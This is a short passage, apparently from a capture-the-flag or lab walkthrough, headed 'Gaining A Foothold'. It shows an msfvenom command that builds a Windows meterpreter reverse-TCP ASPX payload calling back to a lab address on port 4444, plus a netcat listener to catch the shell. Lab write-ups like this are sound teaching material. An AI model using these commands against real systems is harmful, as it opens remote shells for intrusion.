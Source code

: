 # 2. Gaining A Foothold

Create a msfvenom aspx payload with reverse tcp shell and listen on the netcat to get the shell call:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f aspx > exploit.aspx
```

![](../.gitbook/assets/2.png)

And then `netcat -nvlp 4444` to get the reverse shell back.

